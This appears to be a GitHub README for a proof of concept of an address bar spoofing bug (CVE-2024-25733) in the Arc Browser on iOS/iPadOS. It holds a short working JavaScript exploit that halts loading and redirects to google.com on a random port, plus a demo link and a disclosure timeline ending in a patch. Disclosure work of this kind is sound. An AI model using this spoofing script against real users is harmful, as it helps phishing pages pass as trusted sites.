 # ARC-Browser-Address-Bar-Spoofing-PoC (CVE-2024-25733)
ARC Browser Address Bar Spoofing PoC - iOS/iPadOS

## DEMO

---
<a href="https://github.com/hackintoanetwork/ARC-Browser-Address-Bar-Spoofing-PoC/raw/main/PoC.mp4">PoC.mp4</a>
<br>

## Exploit PoC (Proof of Concept)

---

```html
<script>
    function spoof() {
        setTimeout(() => {
            window.stop();
            let randomPort;
            do {
                randomPort = Math.floor(Math.random() * 1000);
            } while (randomPort === 0 || randomPort === 443);
            document.location = "https://google.com:" + randomPort + "/";
        }, 300);
    }
    spoof();
</script>
```

## TimeLine
 - 2024-01-25 : Vulnerability reported to The Browser Company of New York
 - 2024-01-25 : Recognized as a security vulnerability
 - 2024-02-13 : Patched in the latest release
